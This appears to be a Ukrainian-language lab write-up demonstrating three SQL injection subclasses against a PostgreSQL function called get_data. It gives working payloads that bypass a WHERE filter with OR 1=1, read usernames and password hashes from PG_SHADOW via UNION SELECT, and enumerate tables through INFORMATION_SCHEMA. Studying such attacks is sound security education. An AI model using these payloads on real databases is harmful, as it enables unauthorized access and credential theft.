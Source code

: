 ### SQL-ін'єкція підкласу "Зняття фільтрації рідків умови SQL-запиту"

Приклад SQL-ін'єкції підкласу "Зняття фільтрації рідків умови SQL-запиту":<br>
```SELECT * FROM get_data('Petrov'' OR 1=1 -- ');```<br>
![Результат SQL-ін'єкції](screenshots/1.4.1.2.png)

### SQL-ін'єкція підкласу "Отримання вмісту таблиць, що не входять у SQL-запит"

Приклад SQL-ін'єкції підкласу "Отримання вмісту таблиць, що не входять у SQL-запит":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT CAST(USESYSID AS INTEGER),CAST(USENAME AS VARCHAR), CAST(PASSWD AS VARCHAR) FROM PG_SHADOW --');```<br>
![Результат SQL-ін'єкції](screenshots/1.4.1.3.png)

### SQL-ін'єкція підкласу "Отримання структури таблиць БД"

Приклад SQL-ін'єкції підкласу "Отримання структури таблиць БД":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT 1,CAST(TABLE_NAME AS VARCHAR),CAST(NULL AS VARCHAR) FROM INFORMATION_SCHEMA.TABLES -- ');```<br>
![Результат SQL-ін'єкції](screenshots/1.4.1.4.png)
